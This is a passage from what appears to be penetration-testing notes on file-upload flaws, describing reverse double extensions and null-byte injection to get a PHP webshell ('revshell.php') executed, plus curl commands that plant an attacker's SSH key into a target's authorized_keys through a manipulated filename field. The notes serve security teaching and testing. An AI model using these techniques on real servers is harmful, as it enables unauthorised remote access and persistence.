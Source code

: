 In case we can use the **reverse double extension** method, the file will be uploaded but it might not be able to execute. Instead it can be served as a direct download (Figure 11.1) or as a page (Figure 11.2).

<figure><img src="../../.gitbook/assets/kD2A9vgXUo.png" alt=""><figcaption><p>Figure 11: The webshell script treated as a direct download and a page.</p></figcaption></figure>

This can be potentially bypassed by a **null byte injection**. The null byte (`\x00`) marks the end of a string in various programming languages. By **injecting a URL-encoded null byte** after the script's extension (`.php`) (Figure 13), the server might interpret it as the end of the string and ignore what comes after it, in this case, the `.png` extension. However, when the server later processes the file, it could read it as a PHP script and execute it.

<figure><img src="../../.gitbook/assets/chrome_9ehldnPHHT.png" alt=""><figcaption><p>Figure 13: Injecting a null byte in the file's name.</p></figcaption></figure>

To access the file only the part before the null byte might be called, i.e., `revshell.php`.

## Attacks

### SSH Keys

{% code overflow="wrap" %}
```bash
# Generate SSH key pair
$ ssh-keygen -t rsa -f ./id_rsa -N ''
​
# Upload it to the target directory
$ curl -X POST http://<target-IP>/file-upload -H "Content-Type: application/x-pem-file" -F file=@id_rsa.pub -F filename=/home/bob/.ssh/authorized_keys --proxy 127.0.0.1:8080
```
{% endcode %}
